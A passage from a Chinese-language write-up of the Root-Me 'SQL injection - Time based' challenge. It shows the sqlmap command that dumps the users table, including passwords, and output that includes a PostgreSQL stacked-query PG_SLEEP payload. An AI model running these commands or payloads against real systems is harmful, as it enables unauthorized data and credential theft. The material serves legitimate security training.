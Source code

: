 ```shell
| email     | varchar |
| firstname | varchar |
| id        | int4    |
| lastname  | varchar |
| password  | varchar |
| username  | varchar |
+-----------+---------+

[10:25:00] [INFO] fetched data logged to text files under 'C:\Users\Administrator\AppData\Local\sqlmap\output\challenge01.root-me.org'

[*] ending @ 10:25:00 /2019-03-17/
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B52%5D%20%5B45P%5D%20SQL%20injection%20-%20Time%20based/imgs/10.png)

------------

### 获得表数据

得到表 `users` 的所有列名后，就可以通过 sqlmap 的 `-C` 参数指定这些列，再通过 `--dump` 得到每列的数据：

```shell
S:\04_work\BurpSuite>sqlmap.py -r C:\Users\ADMINI~1\AppData\Local\Temp\\1552787207472.req --proxy socks5://127.0.0.1:1080 --time-sec=5 -D public -T users -C id,email,usermame,password,firstname,lastname --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.3.3.23#dev}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:29:48 /2019-03-17/

[10:29:48] [INFO] parsing HTTP request from 'C:\Users\ADMINI~1\AppData\Local\Temp\\1552787207472.req'
[10:29:48] [INFO] resuming back-end DBMS 'postgresql'
[10:29:48] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: member (GET)
    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: action=member&member=2;SELECT PG_SLEEP(5)--
---
[10:29:49] [INFO] the back-end DBMS is PostgreSQL
web application technology: Nginx
back-end DBMS: PostgreSQL
[10:29:49] [INFO] fetching entries of column(s) 'email, firstname, id, lastname, password, usermame' for table 'users' in database 'public'
[10:29:49] [INFO] fetching number of column(s) 'email, firstname, id, lastname, password, usermame' entries for table 'users' in database 'public'
[10:29:49] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[10:30:13] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
3
[10:30:35] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
```